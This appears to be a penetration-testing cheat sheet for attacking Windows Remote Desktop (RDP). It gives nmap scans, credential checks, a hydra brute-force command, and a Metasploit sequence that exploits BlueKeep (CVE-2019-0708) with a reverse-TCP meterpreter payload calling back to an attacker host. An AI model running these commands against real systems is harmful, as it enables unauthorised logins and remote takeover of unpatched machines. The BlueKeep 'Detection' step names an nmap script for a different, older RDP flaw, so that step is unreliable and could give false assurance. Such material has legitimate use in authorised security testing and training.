 **RDP** (Remote Desktop Protocol) is a proprietary protocol developed by Microsoft to allow users to remotely connect to and interact with a Windows-based machine using a graphical interface. It operates on port **3389** by default and supports remote desktop, file transfer, and application sharing.


## Check if RDP is Enabled  
Use tools like `nmap` to scan for open RDP ports and confirm the service.  

```bash
nmap -p 3389 --script=rdp-enum-encryption <target>
```

## Testing RDP with Credentials  
`rdesktop`, `xfreerdp`, or `crackmapexec` can be used to validate login credentials for RDP.

**rdesktop**
```bash
rdesktop -u <username> -p <password> <target_ip>
```

**xfreerdp**
```bash
xfreerdp /u:<username> /p:<password> /v:<target_ip>
```

**netexec**
```bash
netexec rdp <target_ip> -u <username> -p <password>
```

## Brute Force Attack on RDP  
`hydra` can be used to brute force RDP credentials.

```bash
hydra -l <username> -P <password_list> rdp://<target_ip>
```

## BlueKeep
**BlueKeep** is a critical vulnerability in the Remote Desktop Protocol (RDP) service of older Windows systems, identified as CVE-2019-0708. This exploit enables unauthenticated attackers to execute remote code on unpatched systems, potentially allowing full control over the affected machine.

#### Affected Systems
- Windows Server Versions:
	- Windows Server 2003 (if RDP is manually enabled)
	- Windows Server 2008 / 2008 R2
- Windows OS Versions:
	- Windows XP (if RDP is enabled)
    - Windows Vista
    - Windows 7

*Note: Systems updated with the May 2019 security patch or later are protected from BlueKeep. Additionally, systems with Network Level Authentication (NLA) enabled are more secure.*

#### Detection

Use Nmap to check for BlueKeep vulnerability:

```bash
nmap -p 3389 --script rdp-vuln-ms12-020 <target_ip>
```

#### **Exploitation**

Once the target is confirmed vulnerable, you can exploit BlueKeep using **Metasploit**:

```bash
msfconsole
search bluekeep
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
# Configure the exploit
set RHOST <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <port>
exploit
```